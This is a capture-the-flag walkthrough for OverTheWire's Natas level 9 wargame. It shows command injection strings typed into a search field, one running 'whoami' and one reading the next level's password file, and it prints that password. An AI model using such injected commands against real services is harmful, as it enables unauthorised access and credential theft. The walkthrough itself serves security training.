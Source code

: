 # Challenge Walkthrough

## Natas Level 9

```
Username: natas9
URL:      http://natas9.natas.labs.overthewire.org
```

## Solution

- Go to link
- You get a field that will search anything in the file, you can also view the source code.
- here you can see, whatever the text we send, it is appended in the command.
- We can try injecting commands here.
- Try running the following command:
> test; whoami; #
- it return the user `natas9`, which is our current user.
- now let's see if we can fetch the password for other users like `natas10`
> test; cat /etc/natas_webpass/natas10; #
- And we got our password

## Password

The password for natas10 is t7I5VHvpa14sJTUGV0cbEsbYfFP2dmOu
